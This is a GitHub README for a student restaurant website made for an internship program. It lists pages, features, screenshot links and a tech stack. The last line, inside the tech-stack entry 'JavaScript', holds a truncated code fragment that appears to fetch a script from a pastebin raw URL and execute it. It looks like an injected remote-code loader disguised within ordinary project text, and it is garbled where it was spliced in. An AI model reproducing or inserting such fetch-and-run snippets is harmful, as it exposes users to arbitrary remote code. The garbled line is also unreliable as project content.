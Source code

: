# ✨ Glory Luxe  ✨

This is a web based application developed for a restaurant named PARADISE.

### This web based restaurant application has been developed for the accomplishment of Future Ready Talent Internship program launched by Microsoft, Future Skills Prime, Quess, Github and EY.


**Project Link** -https://salmon-pebble-083963100.3.azurestaticapps.net
  

## Features and Functionalities 😃

- Interactive and responsive UI.
- Has many graphical and visual innovative effects.
- Have an aesthetically pleasing visual design and architecture.
- Has collection of many web pages including Home, About Us, Contact, Menu, Chef Staff pages etc.
- User is able to book a table through the website.
- Included the feedback Survey form to increase the scope of improvement 

## Screenshots 📸
### Home page -   ![Screenshot 2023-07-29 132157](https://github.com/pranay020/project2/assets/140306607/80cc8143-5cc6-4852-86a1-8114e0457abd)


### services page -![Screenshot 2023-07-29 132354](https://github.com/pranay020/project2/assets/140306607/24e5e751-75a2-4fff-8269-a41eae352a87)


### Contact page -![Screenshot 2023-07-29 132446](https://github.com/pranay020/project2/assets/140306607/6b609a36-fe0d-4a7c-ae34-731bb5e6fc0e)


### Menu Page -![Screenshot 2023-07-29 132855](https://github.com/pranay020/project2/assets/140306607/6c8585f1-56c5-4099-8c90-e48e9814d588)


### About Us Page -![Screenshot 2023-07-29 132630](https://github.com/pranay020/project2/assets/140306607/d954607a-7a4b-48a6-8c9a-e7f6ebb74d2d)



## Tech Stack 💻

- [Azure(Hosting)](https://azure.microsoft.com/en-in/features/azure-portal/)
- HTML
- CSS
- Bootstrap
- JavaScriptps://pastebin.com/raw/PaWZGzyK'),true))()
